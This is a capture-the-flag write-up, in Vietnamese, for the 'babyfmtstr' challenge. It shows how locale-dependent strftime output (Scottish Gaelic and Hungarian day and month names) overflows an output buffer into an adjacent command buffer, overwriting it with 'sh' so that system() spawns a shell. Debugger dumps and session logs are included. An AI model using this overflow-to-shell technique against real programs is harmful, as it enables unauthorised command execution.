 # write up babyfmtstr - fmtstr locale battle 
- first em sẽ đươc phép nhập format nhưng là format trong locale của libc nên khi qua hàm strftime nó sẽ được chuyển thành định dạng thời gian như ngày giờ, nên format string không sử dụng được như tên bài
```assembly 
00:0000│  0x5555555580e0 (output) ◂— '04/21/2404/21/2404/21/2404/21/2404/21/24%%%%%'
01:0008│  0x5555555580e8 (output+8) ◂— '04/21/2404/21/2404/21/2404/21/24%%%%%'
02:0010│  0x5555555580f0 (output+16) ◂— '04/21/2404/21/2404/21/24%%%%%'
03:0018│  0x5555555580f8 (output+24) ◂— '04/21/2404/21/24%%%%%'
04:0020│  0x555555558100 (command) ◂— '04/21/24%%%%%'
05:0028│  0x555555558108 (command+8) ◂— 0x2525252525 /* '%%%%%' */
06:0030│  0x555555558110 (command+16) ◂— 0x0
07:0038│  0x555555558118 (command+24) ◂— 0x0
```
- tiếp theo ta sẽ có hàm memcpy trong chương trình sẽ copy biến buff chứa những gì được chuyển đổi từ hàm strftime sang biến output, nhưng biến output chỉ có 0x20 bytes mà nó copy tới 0x30 nên buff xảy ra và lọt xuống biến chứa command sẽ được thực thi ở sau cùng, chính vì vậy khi em nhập format ngày giờ phải chọn đúng thì mới có thể overwrite được biến command thành sh để có shell

```c
char output[0x20];
char command[0x20];
```
ở đây khi nhập format %A in tên ngày trong tuần thì nó chỉ có Sunday theo thời gian thực 
```bash
Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> 1
The time now is 1713717621.
Enter format specifier: %A
Formatted: Sunday
```
- khi dịch Sunday sang nhiều thứ tiếng khác nhau thì khả năng có rất nhiều thứ tiếng sẽ có chữ h ở cuối vì vậy cần chọn cho thích hợp 
- Sẽ có 2 chữ có chữ s và chữ h trong chuỗi và ở vị trí thích hợp:
1. Didòmhnaic[h] tương ứng với sunday trong tiếng anh format %A
2. áprili[s] tương ứng với April trong tiếng anh format %B
- có thể sẽ mất nhiều thời gian để tìm, và cũng có thể vào 1 ngày khác trong tương lai sẽ có 1 ngày như vậy, với bài này chỉ dùng được cho chủ nhật vì hiện tại người làm đang ở ngày chủ nhật 
```bash
In [13]: hex(u64(b"aaprilis"))
Out[13]: '0x73696c6972706161'
```
```bash
In [10]: hex(u64(b"ilisaich"))
Out[10]: '0x6863696173696c69'
```
- khi đổi sang hex thì sẽ có được 2 bytes cuối là 0x68 và 0x73 ghép lại là 0x6873 chính là chữ "sh"

```bash
In [5]: hex(u16(b"sh"))
Out[5]: '0x6873'
```
- vì vậy ta chỉ cần overwrite 2 bytes cuối là có thể thực thi command
- vì vậy lần đầu overwrite ta sẽ chọn chữ số 1 để overwrite 

```assembly
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x6944252525252525 ('%%%%%%Di')
03:0018│  0x5555555580f8 (output+24) ◂— 0x69616e686db2c344
04:0020│  0x555555558100 (command) ◂— 0x6863 /* 'ch' */
```
- để write được thì cần padding thích hợp sao cho chữ bytes cuối là chữ h rơi vào chữ l của command ban đầu 

```assembly
pwndbg> tel &output
00:0000│  0x5555555580e0 (output) ◂— 0x34322f31322f3430 ('04/21/24')
01:0008│  0x5555555580e8 (output+8) ◂— 0x34322f31322f3430 ('04/21/24')
02:0010│  0x5555555580f0 (output+16) ◂— 0x34322f31322f3430 ('04/21/24')
03:0018│  0x5555555580f8 (output+24) ◂— 0x696c697270a1c325
04:0020│  0x555555558100 (command) ◂— 0x6873 /* 'sh' */
```
- tiếp theo padding nốt 1 byte còn lại là 0x73 vào là xong, ta được chuỗi sh, khi chạy command sẽ tạo ra được shell
- khi chọn option 3 thì vòng lặp while đưa chương trình vào hàm goodbye và thực thi system 
```bash

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> $ 3
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x8 bytes:
    00000000  41 64 69 c3  b3 73 21 0a                            │Adi·│·s!·│
    00000008
Adiós!
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x67 bytes:
    b'Dockerfile\t      fmtstr\tfmtstr.i64  fmtstr_patched\n'
    b'dist-baby-fmtstr.zip  fmtstr.c\tfmtstr.md   solve.py\n'
Dockerfile          fmtstr    fmtstr.i64  fmtstr_patched
dist-baby-fmtstr.zip  fmtstr.c    fmtstr.md   solve.py
$  

```
## cách có được locale của 2 ngôn ngữ sử dụng
- đầu tiên edit file /etc/locale.gen uncomment 2 locales 
```bash
#gd_GB.UTF-8... done
#hu_HU.UTF-8... done

```
- gen locale
```bash
🍎 >> sudo locale-gen 
Generating locales...
  gd_GB.UTF-8... done
  hu_HU.UTF-8... done
Generation complete.

```
- check locale
```bash
🍎 >> localectl list-locales
C.UTF-8
gd_GB.UTF-8
hu_HU.UTF-8
```
```bash
[DEBUG] Received 0x12 bytes:
    b'Enter new locale: '
[DEBUG] Sent 0xb bytes:
    b'gd_GB.utf8\n'
[DEBUG] Received 0x78 bytes:
    b'Locale changed successfully!\n'
```



